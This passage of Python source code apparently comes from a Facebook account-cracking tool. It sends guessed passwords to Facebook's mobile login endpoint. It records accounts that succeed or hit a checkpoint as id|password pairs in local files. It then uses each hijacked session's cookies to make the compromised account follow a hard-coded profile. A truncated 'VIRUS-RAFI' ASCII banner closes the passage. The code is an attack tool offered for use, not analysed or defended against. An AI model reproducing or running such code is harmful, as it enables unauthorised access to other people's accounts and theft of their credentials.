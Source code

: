 			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False)

			if "checkpoint" in po.cookies.get_dict().keys():

				rint( f'\r\x1b[1;91m [ TALHA-CP ] {idf} | {pw}')

				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

				akun.append(idf+'|'+pw)

				break

			elif "c_user" in ses.cookies.get_dict().keys():

				coki=po.cookies.get_dict()

				coki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

				print(f'\r\x1b[1;92m [ TALHA-OK ] {idf} | {pw}')

				wrt =('%s - %s' % (idf,pw))

				ok.append(wrt)

				open('/sdcard/TALHA-OK.txt','a').write('%s\n' % wrt)

				follow(ses,coki)

				break

			else:

				continue

		except requests.exceptions.ConnectionError:

			time.sleep(31)

	loop+=1

def follow(ses,coki):

	ses.headers.update({"accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})

	r = sop(ses.get('https://mbasic.facebook.com/profile.php?id=100067945261995', cookies={'cookie': coki}).text, 'html.parser')

	get = r.find('a', string='Follow').get('href')

	ses.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text

logo = ("""\033[1;32m

       

██╗   ██╗██╗██████╗ ██╗   ██╗███████╗      ██████╗  █████╗ ███████╗██╗

██║   ██║██║██╔══██╗██║   ██║██╔════╝      ██╔══██╗██╔══██╗██╔════╝██║

██║   ██║██║██████╔╝██║   ██║███████╗█████╗██████╔╝███████║█████╗  ██║

╚██╗ ██╔╝██║██╔══██╗██║   ██║╚════██║╚════╝██╔══██╗██╔══██║██╔══╝  ██║

 ╚████╔╝ ██║██║  ██║╚██████╔╝███████║      ██║  ██║██║  ██║██║     ██║
